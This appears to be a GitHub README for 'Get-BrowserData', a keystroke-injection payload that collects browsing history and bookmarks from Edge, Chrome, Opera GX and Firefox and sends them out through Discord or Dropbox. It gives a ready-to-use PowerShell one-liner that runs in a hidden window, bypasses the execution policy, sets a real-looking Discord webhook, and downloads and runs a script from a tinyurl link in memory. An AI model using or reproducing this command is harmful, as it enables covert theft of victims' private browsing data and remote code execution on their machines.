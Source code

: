 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Get-BrowserData

<p align="center">
      <a href="https://youtu.be/2qkgQAwDZgk">
        <img src=https://i.ytimg.com/vi/2qkgQAwDZgk/maxresdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

This payload can be used to retrieve the browsing history and bookmarks from Edge, Chrome, Opera GX, and Firefox (no bookmarks from firefox currently).

They are then exfiled using either Discord or Dropbox.

## The Function

### [Get-BrowserData] 

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* You no longer need to host your own version of this script
* $db is the variable that holds your DropBox token
* $dc is the variable that holds your Discord webhook
* Fill in either variable or both to set your exfil method

SYNTAX:

```
powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1092997498089521183/ZzWeOZRzAfNWtqXfzLDv47DMWokwf-yMbhL-px977t0sqqTGDuT9YmI27cIKRrxF9Tza';irm tinyurl.com/browserData1 | iex
```
